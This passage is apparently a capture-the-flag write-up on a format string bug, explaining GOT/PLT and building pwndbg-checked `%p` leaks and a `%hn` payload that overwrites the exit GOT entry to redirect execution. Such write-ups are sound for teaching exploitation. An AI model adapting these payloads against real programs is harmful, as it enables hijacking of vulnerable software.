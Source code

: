 We have format string vulnerability in `set_exit_message`. But the problem is that programs closes after executing it once, and we can’t make exploit work in single run. To work around this we can overwrite **GOT **entry of exit function. First we need to find address of exit:

~~~text
    pwndbg> break exit@plt
    Breakpoint 1 at 0x400730
    pwndbg> disassemble 0x400730

    0x400730 <exit@plt>  jmp qword ptr [rip + 0x200b22] <0x601258>
    ...

    pwndbg> x /xw 0x601258           //GOT address of exit
    0x601258 <exit@got.plt>: 0x00400736
~~~

In snippet above we set breakpoint on address of `exit@plt` and then we examine memory it points to.

If you are not familiar with how **GOT/PLT** works, basically library functions are not called directly. Instead in **.txt** section we have calls to `func@plt` which call real functions using address in **GOT**. **PLT** function addresses are fixed in **.txt** section while **GOT** entries are resolved at run-time. This enables things like dynamic loading and **ASLR**. First time function is called, **GOT** will contain only address of **PLT** resolver code which is tasked with getting real address of function and updating **GOT**. Subsequent calls will read **GOT** value and call function directly.

We also need to find address of `loop` function.

~~~text
    pwndbg> p loop
    $1 = {<text variable, no debug info>} 0x4009bd <loop>
~~~

Since address of `loop` is similar to value found in GOT entry for `exit` we don’t have to overwrite everything. It is enough to overwrite 2 lower bytes. But before we overwrite it, we need to find how to access data we put on stack. We can achieve this with `%p`(using `%x` is not good way to display memory addresses, it works on 32 bit but since it is size of unsigned int it will fail on 64 bit binaries). Using `'exit'.ljust(8) + 'A' *8 + '.%p' * 20` we get:

    AAAAAAAA.0x7f0c3ea13323.0x7f0c3ea147a0.0x7f0c3e748c00.0x7f0c3ea147a0.0x70252e70252e7025.(nil).0x7ffeb5112115.0x7ffeb5112520.0x400aa6.(nil).0x7ffeb5112110.0x7ffeb5112110.0x7ffeb5112115.0x2020200074697865.0x4141414141414141.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70

`ljust` is used to align data we put on stack won’t be split between two memory addresses. From the output, we see that our input is on 15th position. `$` enables us to read from specified position on stack, we can use this to verify if we have right position:

    'exit'.ljust(8) + 'A' *8 + '.%15$p'

Now we are going to overwrite `exit` **GOT** entry with `loop` address. To overwrite only 2 lower bytes we are going to use `%hn` specifier.

    'exit'.ljust(8) + '%{0}c|%17$hn|'.format(2493 - 6).rjust(16) + exit_got

2 lower bytes of `loop` address are `0x09bd` which is 2493 decimal, but we deduct 6 since some extra characters get printed. To fine tune exact number we just use **gdb** and check for value after we overwrite. Also we put `exit` **GOT** address on the end since it contains null byte which stops `printf`.
